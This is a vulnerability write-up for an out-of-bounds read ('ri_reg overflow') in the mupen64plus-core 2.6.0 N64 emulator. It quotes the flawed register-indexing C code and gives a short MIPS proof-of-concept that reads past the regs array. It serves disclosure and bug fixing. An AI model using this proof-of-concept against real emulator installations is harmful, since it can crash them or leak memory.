

### BUG9: ri_reg overflow

#### Vulnerability Analysis

```
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/ri/ri_controller.c#L39
void read_ri_regs(void* opaque, uint32_t address, uint32_t* value)
{
    struct ri_controller* ri = (struct ri_controller*)opaque;
    uint32_t reg = ri_reg(address);

    *value = ri->regs[reg];
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/ri/ri_controller.h#L52
static osal_inline uint32_t ri_reg(uint32_t address)
{
    return (address & 0xffff) >> 2;
}


// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/ri/ri_controller.h#L45
struct ri_controller
{
    uint32_t regs[RI_REGS_COUNT];

    struct rdram* rdram;
};
```

#### Reproduction

- poc.asm

```asm
0000000000000000 <_start>:
   0:   3c048470        lui     a0,0x8470
   4:   348403fc        ori     a0,a0,0x3fc
   8:   8c850000        lw      a1,0(a0)
   c:   00000000        nop
```


